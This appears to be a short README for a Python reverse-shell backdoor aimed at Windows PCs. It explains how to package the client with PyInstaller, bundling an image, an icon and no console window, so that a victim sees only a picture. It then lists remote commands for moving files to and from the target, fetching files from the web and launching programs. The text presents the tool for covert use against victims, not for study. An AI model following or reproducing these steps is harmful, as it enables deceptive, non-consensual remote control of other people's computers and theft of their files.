 This backdoor helps us to execute commands on the target PC (Windows)
Run the server.py on Linux OS and win_reverse(reverse shell should be sent to target PC(windows))
Before running this, edit both the files and change the IP address to your Linux IP
First by pyinstaller we should convert win_reverse.py into win_reverse.exe file
Eg:pyinstaller --add-data "/root/image.jpg:," --onefile --noconsole --icon /root/image.ico win_reverse.py
	Here --add-data allows us to open an image
	     --onefile is used to make one executable file
	     --noconsole is to hide the command prompt
   	     --icon is for the thumbnail of the exe file

Here the victim won't be able to figure out that this is a Backdoor
The only thing he can see is an image

Now run the server.py on your Linux OS
As soon as victim opens the exe file we can execute any commands on Target PC 

download path	->Download a file from target PC
upload path	->Uploads a file to target PC
get url		-> download a file to target from any website
start path	->start program on target PC
check		->check for administrator priviledges
